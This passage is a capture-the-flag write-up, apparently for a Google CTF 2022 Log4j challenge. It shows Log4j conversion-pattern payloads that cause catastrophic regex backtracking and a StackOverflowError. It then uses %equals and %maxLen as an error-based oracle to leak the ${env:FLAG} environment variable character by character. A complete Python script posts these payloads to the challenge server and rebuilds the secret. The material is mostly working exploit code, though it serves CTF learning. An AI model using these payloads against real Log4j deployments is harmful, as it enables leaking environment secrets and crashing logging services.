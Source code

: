 ```
%replace{<@repeat(4000)>a<@/repeat>}{<@urlencode>(a|aa)+<@/urlencode>}{z}
```

The error:

```
2022-07-11 11:47:25,336 main ERROR An exception occurred processing Appender Console org.apache.logging.log4j.core.appender.AppenderLoggingException: java.lang.StackOverflowError
	at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:165)
	[TRUNCATED]
Caused by: java.lang.StackOverflowError
	at java.base/java.util.regex.Pattern$BmpCharProperty.match(Pattern.java:3963)
```

With this we have the basics for our exploit except for one thing, we need to be able to test each character of the flag
individually. For this we will use the `maxLength` conversion pattern which truncates the result.

```
%replace{
  %equals{
    %maxLen{${env:FLAG}}{3}
  }{CTF}
  {<@repeat(9999)>a<@/repeat>}
}
{<@urlencode>(a|aa)+<@/urlencode>}
{x}
```

If the flag starts with `CTF` we get a `StackOverflowError` error. Using this payload we can iterate over each character. 
There were a couple of hiccups though: 

- I did not find the proper way (if any ?) to test for special characters such as 
`{` and `}` which are part of the flag. I ended up using `replace` again with the meta sequence `\W` to replace all non-word
characters.
- My solution stopped working at 20 characters. Turns out I needed to read the documentation more carefully: "If the 
 length is greater than 20, then the output will contain a trailing ellipsis"

The dirty script to get the FLAG:

```python
import requests

url = "https://log4j-web.2022.ctfcompetition.com:443/"
headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}

flag = ''

for x in range(1, 50):
    print(x)
    for c in 'CTF-abcdef01234567890':
        to_test = (c + "...") if x > 20 else c
        payload = "%replace{%equals{%maxLen{%replace{${env:FLAG}}{\W}{-}}{"+str(x)+"}}{"+flag + to_test +"}{"+"a"*9999+"}}{(a|aa)+}{substitution}"
        data = {
            "text": payload
        }
        resp = requests.post(url, headers=headers, data=data)
        if "StackOverflowError" in resp.text:
            flag = flag+c
            print(flag)
            break
```
